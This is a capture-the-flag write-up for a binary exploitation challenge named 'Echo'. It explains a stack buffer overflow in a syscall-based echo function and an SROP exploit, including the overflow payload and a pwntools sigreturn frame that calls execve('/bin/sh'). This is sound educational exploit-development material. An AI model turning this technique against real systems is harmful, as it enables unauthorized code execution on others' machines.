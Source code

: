 ## Echo 
#### Description
tell me something to say it back

#### Author
M_alpha

#### Points and solves
485 and 45 solvers.


We are given a small binary that echos what you write to it using syscalls

The echo function:
```asm 
<+0>:     push   rbp
<+1>:     mov    rbp,rsp
<+4>:     sub    rsp,0x300
<+11>:    mov    eax,0x0
<+16>:    mov    edi,0x0
<+21>:    lea    rsi,[rsp+0x180]
<+29>:    mov    edx,0x300
<+34>:    syscall
<+36>:    mov    rdx,rax
<+39>:    mov    eax,0x1
<+44>:    mov    edi,0x1
<+49>:    syscall
<+51>:    leave
<+52>:    ret
```
In addition, the author was kind enough to include a ```/bin/sh``` in the code segment
```
0x401035 <echo+53>:     "/bin/sh"
```
### Syscall convention
Quick reminder for x86_64 syscall calling convetions, parameters are passed via ```rdi, rsi, rdx, r10, r8, r9``` and ```rax``` is used to select the syscall.
For pwning the challenge, we will use the read (```rax = 0```) and sigreturn (```rax = 0xf```) syscalls.
### The vulnerability(ies)
1. There is a very obvious buffer overflow, the read syscall will overflow the stack
since we are reading ```rdx = 0x300``` bytes into ```rsi = rsp - 0x180``` resulting in 0x180 bytes of overflow.

2. Every binary with that uses ```syscall``` should catch your attention, especially because of syscall 0x3b (```exceve```),
and the syscall 0xf ```sigreturn```.


### Pwning the binary
As I mentioned before we will be using srop to solve this challenge.
The solution splits into two phases:
### 1. Loading the srop frame into the memory:
On the first call of echo, we will prepare the stack by writing the following payload:
```0x188*b"A" + p64(elf.sym.echo) + p64(0x40101d) + bytes(frame)```.
The first 0x188 bytes are there to overflow the return address with ```echo``` function address.
When the next call of ```echo``` will return, it'll return to ```0x40101d```.
```asm
0x000000000040101d <+29>:    mov    edx,0x300
0x0000000000401022 <+34>:    syscall
```
By the point we are at ```0x40101d``` we'll have ```frame``` at the top of the stack.


The idea is, that if we can have ```rax = 0xf``` and call syscall, while having an srop frame 
one the stack, we can basically do anything.
However, this phase only loads everything on the stack, we are still missing ```rax = 0xf```


### 2. Loading ```rax = 0xf```:
The reason we return to ```echo``` a second time, is just to write 15 bytes, and by that set ```rax = 0xf```


### 3. What's in the frame:
```python
frame = SigreturnFrame(kernel ="amd64")
frame.rax = 0x3b
frame.rdi = binsh
frame.rip = 0x401022
frame.rdx = 0
```
The frame loads all the registers with the appropriate values, use sigreturn which loads ```rip``` with ```0x401022``` and ```execve(/bin/sh)```

Run it all, and get shell :)

#### Flag
```flag{w3ll_1t_1s_n0t_f0rm@t5tr1ng}```
